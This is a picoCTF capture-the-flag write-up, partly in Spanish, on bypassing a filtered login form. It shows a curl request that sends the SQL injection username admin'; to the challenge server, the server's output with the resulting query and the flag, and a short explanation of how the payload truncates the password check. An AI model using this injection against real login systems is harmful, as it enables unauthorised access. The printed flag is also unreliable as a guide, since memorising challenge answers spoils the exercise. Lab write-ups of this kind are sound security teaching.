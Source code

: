 ## Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
#### hints
- The password is being filtered.
## Solución
```shell
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=toromax&debug=1"
<pre>username: admin';
password: toromax
SQL query: SELECT * FROM users WHERE name='admin';' AND password='toromax'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 

```
## Bandera
```css
flag: picoCTF{m0R3_SQL_plz_c34df170}
```
## Notas Adicionales
En este caso, se utilizó nuevamente una inyección SQL para acceder a una página de inicio de sesión. Se envió la cadena `"admin';"` como nombre de usuario, lo que cerró prematuramente la consulta SQL original, permitiendo el inicio de sesión sin importar la contraseña (`toromax`). Esto resultó en la ejecución de una consulta SQL válida que omitió la verificación de la contraseña, y permitió acceder al sistema, revelando la bandera
# comandos utilizados

## Referencias
